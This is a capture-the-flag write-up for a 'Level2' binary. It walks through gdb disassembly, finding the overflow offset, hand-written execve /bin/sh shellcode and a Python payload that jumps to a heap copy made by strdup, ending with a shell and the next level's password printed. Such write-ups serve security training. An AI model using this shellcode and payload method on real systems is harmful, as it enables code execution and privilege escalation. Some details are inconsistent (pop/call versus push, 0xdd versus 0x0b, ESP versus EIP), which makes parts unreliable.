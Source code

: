 # Level2

	(gdb) disas main
	Dump of assembler code for function main:
	   0x0804853f <+0>:	push   %ebp
	   0x08048540 <+1>:	mov    %esp,%ebp
	   0x08048542 <+3>:	and    $0xfffffff0,%esp
	   0x08048545 <+6>:	call   0x80484d4 <p>
	   0x0804854a <+11>:	leave  
	   0x0804854b <+12>:	ret    
	End of assembler dump.
	(gdb) disas p
	Dump of assembler code for function p:
	   0x080484d4 <+0>:	push   %ebp
	   0x080484d5 <+1>:	mov    %esp,%ebp
	   0x080484d7 <+3>:	sub    $0x68,%esp
	   0x080484da <+6>:	mov    0x8049860,%eax
	   0x080484df <+11>:	mov    %eax,(%esp)
	   0x080484e2 <+14>:	call   0x80483b0 <fflush@plt>
	   0x080484e7 <+19>:	lea    -0x4c(%ebp),%eax
	   0x080484ea <+22>:	mov    %eax,(%esp)
	   0x080484ed <+25>:	call   0x80483c0 <gets@plt>
	   0x080484f2 <+30>:	mov    0x4(%ebp),%eax
	   0x080484f5 <+33>:	mov    %eax,-0xc(%ebp)
	   0x080484f8 <+36>:	mov    -0xc(%ebp),%eax
	   0x080484fb <+39>:	and    $0xb0000000,%eax
	   0x08048500 <+44>:	cmp    $0xb0000000,%eax
	   0x08048505 <+49>:	jne    0x8048527 <p+83>
	   0x08048507 <+51>:	mov    $0x8048620,%eax
	   0x0804850c <+56>:	mov    -0xc(%ebp),%edx
	   0x0804850f <+59>:	mov    %edx,0x4(%esp)
	   0x08048513 <+63>:	mov    %eax,(%esp)
	   0x08048516 <+66>:	call   0x80483a0 <printf@plt>
	   0x0804851b <+71>:	movl   $0x1,(%esp)
	   0x08048522 <+78>:	call   0x80483d0 <_exit@plt>
	   0x08048527 <+83>:	lea    -0x4c(%ebp),%eax
	   0x0804852a <+86>:	mov    %eax,(%esp)
	   0x0804852d <+89>:	call   0x80483f0 <puts@plt>
	   0x08048532 <+94>:	lea    -0x4c(%ebp),%eax
	   0x08048535 <+97>:	mov    %eax,(%esp)
	   0x08048538 <+100>:	call   0x80483e0 <strdup@plt>
	   0x0804853d <+105>:	leave  
	   0x0804853e <+106>:	ret    
	End of assembler dump.

There is another vulnerable gets() call, however this time there is no useful function to exploit.

However, the stack is protected against buffer overflow, there is a check here that will exit if the memory has been overwritten :

	0x080484fb <+39>:	and    $0xb0000000,%eax
	0x08048500 <+44>:	cmp    $0xb0000000,%eax

This means we won't be able to overflow the stack. But there is also a call to strdup, which uses malloc, so the value will be stored in the heap.
We can place a breakpoint after the strdup call to get the pointer address, located in the EAX register (return value) :

	(gdb) run
	Starting program: /home/user/level2/level2 abc
	AAAAAAAAAAAA
	AAAAAAAAAAAA

	[...]

	Breakpoint 2, 0x0804853d in p ()
	(gdb) info registers
	eax            0x804a008        134520840
	ecx            0x0      0
	edx            0xbffff6cc       -1073744180
	ebx            0xb7fd0ff4       -1208152076
	esp            0xbffff6b0       0xbffff6b0
	ebp            0xbffff718       0xbffff718
	esi            0x0      0
	edi            0x0      0
	eip            0x804853d        0x804853d <p+105>
	eflags         0x200286 [ PF SF IF ID ]
	cs             0x73     115
	ss             0x7b     123
	ds             0x7b     123
	es             0x7b     123
	fs             0x0      0
	gs             0x33     51
	(gdb) x $eax
	0x804a008:      0x41414141

The address 0x804a008 indeed contains our input string.

We also need to find the buffer size

	$ msf-pattern_create -l100
	Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

Now we just have to find the pattern stored in the registers :

	(gdb) info register
	[...]
	ebp            0x63413563       0x63413563 <-- cA5c in ASCII
	esi            0x0      0
	edi            0x0      0
	eip            0x37634136       0x37634136 <-- 7cA6 in ASCII
	[...]

EBP:

	$ msf-pattern_offset -q c5Ac
	[*] Exact match at offset 76

EIP:

	$ msf-pattern_offset -q 6Ac7
	[*] Exact match at offset 80

We can overflow the EIP register with the 81-84th characters of the buffer, by overwriting the address of the strdup return value. And this address will contain our own code that will run a shell, effectively executing it. Since the strdup address is located in the heap, the stack will be untouched.

Here our malicious asm code that will use the pop/call technique:

	global	_start
	section	.text
	
	_start:
		; set registers to NULL
		xor	eax, eax
		xor	ebx, ebx
		xor	ecx, ecx
		xor	edx, edx
	
		push	edx		; push NULL

		; We need to push /bin/sh on the stack using a x86 architecture. So we need to push 4 bytes at a time, and in little endian number
		; /bin is only 3 bytes so we add another /
		push	0x68732f6e	; hs/n
		push	0x69622f2f	; ib// (1)
		
		mov	ebx, esp
		push	edx ; push NULL (2)
		
		push	ebx ; push string address (3)
		
		mov	ecx, esp ; (4)
		mov	al, 11 ; syscall number of execve
		int	0x80

This is how the stack will look like after executing our code :

	   +------------------------+
	   |        //bin/sh        |<-+	(1)
	   +------------------------+  |
	   |         edx = 0        |  |	(2)
	   +------------------------+  |
	+->|   ebx = addr str       |--+	(3)
	|  +------------------------+
	|  |            0           |<-- null pointer for the string termination
	|  +------------------------+
	+--| ecx = addr addr str    |		(4)
	   +------------------------+

[source](https://repo.zenk-security.com/Techniques%20d.attaques%20%20.%20%20Failles/Les%20shellcodes.pdf)

In order to get the address of a string, we first need to push it to the stack. The pop/call technique consists of the following: we start from an address X, jumping to a label at address Y, below which there is a call to the instruction following X. And below this call is our string. During the call, the address of the next instruction will be pushed onto the stack, as with all calls. The next address is precisely the address of our string. All we have to do is pop the address into a register, in this case ECX

We can then compile our naughty code and dissassemble it :

	$ objdump -d shellcode

	shellcode:     file format elf32-i386


	Disassembly of section .text:

	08049000 <_start>:
	8049000:	31 c0                	xor    %eax,%eax
	8049002:	31 db                	xor    %ebx,%ebx
	8049004:	31 c9                	xor    %ecx,%ecx
	8049006:	31 d2                	xor    %edx,%edx
	8049008:	52                   	push   %edx
	8049009:	68 6e 2f 73 68       	push   $0x68732f6e
	804900e:	68 2f 2f 62 69       	push   $0x69622f2f
	8049013:	89 e3                	mov    %esp,%ebx
	8049015:	52                   	push   %edx
	8049016:	53                   	push   %ebx
	8049017:	89 e1                	mov    %esp,%ecx
	8049019:	b0 dd                	mov    $0xdd,%al
	804901b:	cd 80                	int    $0x80

Dissassembling it allows us to get the opcodes (the machine code of the asm instructions), separating them with \x.
To do so, we can use a small script. I am a lazy dude though, so i will instead write them by hand. Here is our shellcode :

	\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\xb0\x0b\xcd\x80

Now, we just need to pass this shellcode to the binary. At the same time, we also need to overwrite ESP with the malloc'd string address. To do so, our string needs to be 80 characters long + the last 4 characters to overflow ESP. Since our shellcode is (fortunately) shorter than 80 characters, we can add some padding until we reach 80 characters. I would recommend using 'Y' because it's such an underrated letter in my opinion, but any character will do the job.

Here is our final payload :

	$ echo $((($(cat shellcode.txt | wc -c) - 1)/4))
	29 <-- shellcode len, so we need a padding of 51
	$ python -c 'print "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\xb0\x0b\xcd\x80"+"Y"*51+"\x44\x84\x04\x08"+"\x08\xa0\x04\x08"' > payload
	$ cat payload - | ./level2 
	[...]
	id
	uid=2021(level2) gid=2021(level2) euid=2022(level3) egid=100(users) groups=2022(level3),100(users),2021(level2)
	cd ../level3
	cat .pass
	492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
